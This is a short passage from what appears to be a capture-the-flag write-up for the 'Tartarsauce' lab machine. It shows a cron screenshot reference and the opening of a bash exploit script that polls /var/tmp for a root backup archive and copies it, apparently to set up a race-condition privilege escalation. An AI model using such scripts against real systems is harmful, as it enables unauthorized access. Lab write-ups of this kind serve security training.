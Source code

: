 ![cron](Tartarsauce/images/cron.png) 

### Bash exploit script

	#!/bin/bash

	# work out of shm
	cd /dev/shm

	# set both start and cur equal to any backup file if it's there
	start=$(find /var/tmp -maxdepth 1 -type f -name ".*")
	cur=$(find /var/tmp -maxdepth 1 -type f -name ".*")

	# loop until there's a change in cur
	echo "Waiting for archive filename to change..."
	while [ "$start" == "$cur" -o "$cur" == "" ] ; do
	    sleep 10;
	    cur=$(find /var/tmp -maxdepth 1 -type f -name ".*");
	done

	# Grab a copy of the archive
	echo "File changed... copying here"
	cp $cur .
